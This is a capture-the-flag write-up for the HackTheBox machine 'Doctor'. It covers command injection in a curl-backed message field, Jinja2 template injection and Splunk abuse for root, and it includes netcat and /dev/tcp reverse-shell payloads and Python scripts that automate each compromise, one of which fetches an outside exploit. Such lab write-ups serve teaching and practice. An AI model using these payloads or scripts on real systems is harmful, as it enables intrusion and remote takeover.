

This is an Easy box from HackTheBox. But not really too easy, I spent a good time in it.

It's OS is Linux, which is common in HackTheBox Machines.

It's exploration was through Web. There are two ways to get it. Through command injection and SSTI. I'll show both of them, and in the end of the writeup I did a code analsys, to show how to spot the vulnerabilities on a whitebox approach.

My rate for this machine is 6/10.

In the end you can find the automated script to explore this machine!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.209
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We look at the source code, nothing useful

Start enumerate it with `Gobuster` 

I'll run gobuster against the site, and include -x php,txt since I know the site is PHP, and since it’s an easy box so some CTF-like stuff might show up in .txt files:

```sh
gobuster dir -u http://10.10.10.209 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Did not find much thing, we see a e-mail on the page


So, we add `doctors.htb` to our hosts file


We see that we are redirected to a login page


We see on burp that we are possibly running a Python Web Server


As we don't have credentials, and simple bypass did not work, let's create a new user


Ok, now we log in with this new user


We see a new page, and a link where we can create `New Message`, places that we can input data are always interesting when exploiting web servers


So, we just try to see what is it


And seems that the new message was posted on the 0x4rt3mis timeline


We look on the source code, and seems to be a `/archive` on the website, which is still under development


We access it and see that our data is being renderized. Awesome, now let's try some stuffs here


We see that something is being processed, that's awesome.

# www-data

We got two ways of exploring this box. One of them is with command injection and the other is SSTI, I'll show and automate both of them

## Command Injection

The first I'll show is the command injection, It's always interesting when you see some user input in websites, try to trigger XSS

We could try bruteforce it with a list of xss payloads. But I'll simplify this


We save it


And the connection come back to us


So we started playing arround with it, first we send the request to BurpSuite to better work with that

The first payload we try is the `$(whoami)`, to try to execute commands

`http://10.10.14.20/$(whoami)`


And it gives me the user. My suggestion that its being used a curl command on it


We started poking arround it


Once we cannot send spaces, I started using `${IFS}` as a space, and it worked, we have ping back to us

```sh
http://10.10.14.20/$(ping$IFS-c$IFS'1'$IFS'10.10.14.20')
```


Now let's get a reverse shell on it, shell wich `nc.traditional`

```sh
http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.20'$IFS'5555')
```


To make the things better to debug, we should put a ssh key into the server also.

Now, we got the reverse shell with it, let's automate using script

### Scripting

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for the app', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


doctor_command_injection.py

```py
#!/usr/bin/python3
# Date: 2021-09-03
# Exploit Author: 0x4rt3mis
# Hack The Box - Doctor
# Command Injection Vulnerability

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First we need to create a login on the application
def createLogin(rhost):
	# First get the cookies
	url = "http://%s:80/home" %rhost
	r.get(url,proxies=proxies)
	print("[+] Cookies GOT!! [+]")
	# Now create a new user
	url = "http://%s:80/register" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"username": "0x4rt3mis", "email": "0x4rt3mis@email.com", "password": "teste", "confirm_password": "teste", "submit": "Sign Up"}
	r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
	print("[+] User 0x4rt3mis@email.com created!!!!! [+]")
	
# After create the user, we need to login on the application
def Login(rhost):
	# Now, let's log in the application
	url = "http://doctors.htb:80/login?next=%2Fpost%2Fnew"
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"email": "0x4rt3mis@email.com", "password": "teste", "submit": "Login"}
	login = r.post(url, headers=headers, data=data, cookies=r.cookies, proxies=proxies)
	if "Doctor Secure Messaging" in login.text:
		print("[+] User loged in! [+]")
	else:
		print("[+] User not loged in, see burp! [+]")

# Get the reverse shell with the command injection vulnerability
def revShellCmdInjection(rhost,lhost,lport):
	# Now let's trigger it
	print("[+] Now, let's trigger it [+]")
	url = "http://%s:80/post/new" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"title": "XSS", "content": "http://%s/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'%s'$IFS'%s')" %(lhost,lhost,lport), "submit": "Post"}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip appress', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport= args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create a login
    createLogin(rhost)
    # Logging on the app
    Login(rhost)
    # Getting the reverse shell
    revShellCmdInjection(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

## SSTI

Now we'll explore it with Server Side Template Injection. It's another vuln we got on this box, and it's very useful to explain it also.

From `PayloadALlTheThings` we got

```
Template injection allows an attacker to include template code into an existing (or not) template. A template engine makes designing HTML pages easier by using static template files which at runtime replaces variables/placeholders with actual values in the HTML pages
```

You can also see the methodology [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology)

I recommend you to read it.


We will try to execute it, make the template engine render our payload, if we get success, we identify what is the Template Engine, and get a payload for it.

So, we test the first payload

```
${7*7} and ${8*8}
```


Failed, so we get to the next payload 

```
7*7 and 8*8
```


And on the `/archive` we see the 49


We get the injection point, now with the payload 

```
7*'7'
``` 

we see if it's vulnerable


And we see that it's vulnerable!


It's `Jinja2` or `Twig`

We got this payload from PayloadAllTheThings which does not require que value from popen


We trigger it and gain a reverse shell


Now, let's automate it. I'll use the same script I used before


doctor_ssti_injection.py

Payload which I used on script, omitted because of the rendering page from the blog


```py
#!/usr/bin/python3
# Date: 2021-09-03
# Exploit Author: 0x4rt3mis
# Hack The Box - Doctor
# Command Injection Vulnerability

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First we need to create a login on the application
def createLogin(rhost):
	# First get the cookies
	url = "http://%s:80/home" %rhost
	r.get(url,proxies=proxies)
	print("[+] Cookies GOT!! [+]")
	# Now create a new user
	url = "http://%s:80/register" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"username": "0x4rt3mis", "email": "0x4rt3mis@email.com", "password": "teste", "confirm_password": "teste", "submit": "Sign Up"}
	r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies)
	print("[+] User 0x4rt3mis@email.com created!!!!! [+]")
	
# After create the user, we need to login on the application
def Login(rhost):
	# Now, let's log in the application
	url = "http://doctors.htb:80/login?next=%2Fpost%2Fnew"
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"email": "0x4rt3mis@email.com", "password": "teste", "submit": "Login"}
	login = r.post(url, headers=headers, data=data, cookies=r.cookies, proxies=proxies)
	if "Doctor Secure Messaging" in login.text:
		print("[+] User loged in! [+]")
	else:
		print("[+] User not loged in, see burp! [+]")

# Get the reverse shell with the command injection vulnerability
def revShellSSTIInjection(rhost,lhost,lport):
	# Now let's trigger it
	print("[+] Now, let's trigger it [+]")
	payload = "+++++++ OMITED +++++++"
	url = "http://%s:80/post/new" %rhost
	headers = {"Content-Type": "application/x-www-form-urlencoded"}
	data = {"title": "%s" %payload, "content": "Reverse Shell", "submit": "Post"}
	r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
	# Now trigger it
	url = "http://%s:80/archive" %rhost
	headers = {"Upgrade-Insecure-Requests": "1", "Cache-Control": "max-age=0"}
	r.get(url, headers=headers, cookies=r.cookies, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip appress', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport= args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create a login
    createLogin(rhost)
    # Logging on the app
    Login(rhost)
    # Getting the reverse shell
    revShellSSTIInjection(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

So, lets procced on this box

# web -> shaun

We see that our user web, is part of the `adm` group. It can read log files, it is interesting

Looking for `password` in files, we find a password

```sh
grep -r password . 2>/dev/null
```


Seems that we have a password. It's `Guitar123`

And we become shaun

```sh
su - shaun
Guitar123
```


You can reach it also with linpeas, that's the same idea.

# shaun -> root

Now, let's get root on this box

Looking for these credentials, we can access the service running on port 8089


We log in the app and see more things to do


Searching on google we found this one

https://github.com/cnotin/SplunkWhisperer2


So, we try to ping our kali machine

```sh
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.6 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.20"
```


And we can execute commands in it, so let's get a reverse shell as root

```sh
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.20 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'"
```


Got it.

# Source Code

Now, we alredy have root on this box, let's analyse the source code to understand how to reach and how to trigger these two vulnerabilities in a whitebox approach.

## SSTI

The SSTI, is most time triggered with the function `render_template`, which is a dangerous function, if not sanitized correctly could become RCE, as we did on the box. With all said, let's start looking for this function on the source code of the box

```sh
grep -lRi "import render_template"
```


We got two files on the source code which are using the import render_template, we should look both of them

Looking at the first one, we see where it's being triggered.


```py
@main.route("/archive")
def feed():
        posts = Post.query.order_by(Post.date_posted.asc())
        tpl = '''
        <?xml version="1.0" encoding="UTF-8" ?>
        <rss version="2.0">
        <channel>
        <title>Archive</title>
        '''
        for post in posts:
                if post.author==current_user:
                        tpl += "<item><title>"+post.title+"</title></item>\n"
                        tpl += '''
                        </channel>
                        '''
        return render_template_string(tpl)
```

It's rendering the post.title directly to the render_template function, without any sanitization.

If we look at `home.html` we see something interesting also

Because post.title is referenced and loaded as {{ post.title }}, the text sent is in just inserted here as part of the rendor, and therefore, it isn’t passed to rendor and not executed.


## Command Injection

When we look at routes.py

We see that the `PostForm()` is being used to validate the submission


We give a closer look in it, where it's defined

```sh
grep -lRi "PostForm("
```


And here we find it. It's making a curl command in it. The reason I can't have spaces in the url is that it won't match on the regex.


For last exercise let's automate the root shell on this box. Once we already know the shaun password


doctor_root.py

```py
#!/usr/bin/python3
# Date: 2021-09-03
# Exploit Author: 0x4rt3mis
# Hack The Box - Doctor
# Splunk Root Reverse Shell

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import threading
import os.path

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, let's donwload the exploit
def downExploit():
    # Let's test, to see if the payload already exists
    if(os.path.isfile('PySplunkWhisperer2_remote.py')):
        print("[+] PySplunkWhisperer2_remote.py Already Download, skipping the download part! [+]")
    else:
        print("[+] PySplunkWhisperer2_remote.py not found, let's download it! [+]")
        os.system("wget -q https://raw.githubusercontent.com/cnotin/SplunkWhisperer2/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py")
        print("[+] EXPLOIT DOWNLOADED, LET'S EXPLOIT!!!! [+]")
        
def getRoot(rhost,lhost,lport):
    print("[+] Let's get R00T on this box! [+]")
    os.system("python3 PySplunkWhisperer2_remote.py --host %s --lhost %s --username shaun --password Guitar123 --payload \"bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'\"" %(rhost,lhost,lhost,lport))

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip appress', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport= args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # See if the exploit already exists on the folder
    downExploit()
    # Get Root
    getRoot(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```